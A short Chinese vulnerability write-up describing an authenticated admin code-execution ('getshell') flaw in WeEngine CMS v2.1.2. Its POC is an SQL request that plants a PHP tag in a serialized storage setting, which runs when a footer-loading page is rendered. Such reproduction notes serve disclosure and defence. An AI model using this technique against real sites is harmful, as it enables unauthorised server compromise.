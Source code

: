 ```yaml
---
title: "微擎cms v2.1.2 后台getshell"
id: zhfly3368
---
```


# 微擎cms v2.1.2 后台getshell

## 一、漏洞简介

需要登录后台，并且有高权限。

## 二、漏洞影响

v2.1.2

## 三、复现过程

这个洞首先需要一个高权账号。
问题出在模板解析这里(template.func.php)。

![image](../img/f24587ffd94ecfc37dc94eccd219054c.png)

attachurl_remote来自于后台的设置,但是有一层htmlspecialchars

![image](../img/5e8417d1e00c913a3ca8e15a55e22b1c.png)

![image](../img/0055b6af34f914079d68097a740bf16b.png)

但是恰巧微擎支持SQL操作,虽然有些绿化版本的把SQL提交按钮和TOKEN值隐藏了,但是由于微擎一个页面做了多个CASE,所以可以数据表优化处找到TOKEN

![image](../img/9afebcd63a2a0425d24c93bf6be0fbc3.png)

这样就可以愉快的修改SQL了,然后会发现微擎存在一个缓存表,同时remote这边的设置做了序列化(其实这个也可以利用),就可以构造如下

### POC

```
sql=DELETE from ims_core_cache;update ims_core_settings  set `value` ='a:5:{s:4:"type";i:1;s:6:"alioss";a:4:{s:3:"key";s:0:"";s:6:"secret";s:0:"";s:6:"bucket";N;s:8:"internal";s:1:"0";}s:3:"ftp";a:9:{s:3:"ssl";i:1;s:4:"host";s:9:"127.0.0.1";s:4:"port";s:2:"21";s:8:"username";s:4:"root";s:8:"password";s:4:"root";s:4:"pasv";i:0;s:3:"dir";s:10:"127.0.0.11";s:3:"url";s:28:"127.0.0.1?<?php echo 123; ?>";s:8:"overtime";i:0;}s:5:"qiniu";a:4:{s:9:"accesskey";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:3:"url";s:0:"";}s:3:"cos";a:6:{s:5:"appid";s:0:"";s:8:"secretid";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:5:"local";s:0:"";s:3:"url";s:0:"";}}' where `key`="remote";&token=9def73ec&submit=submit 
```

最后刷新缓存然后打开有加载footer的页面就能getshell了

![image](../img/5acd7a08337eed107dae071c8231e099.png)

![image](../img/0df2a6d1dfd03ad8c34d11a0489cc22c.png)

![image](../img/f33bc190538b1e32cfb3197b4c9ef48a.png)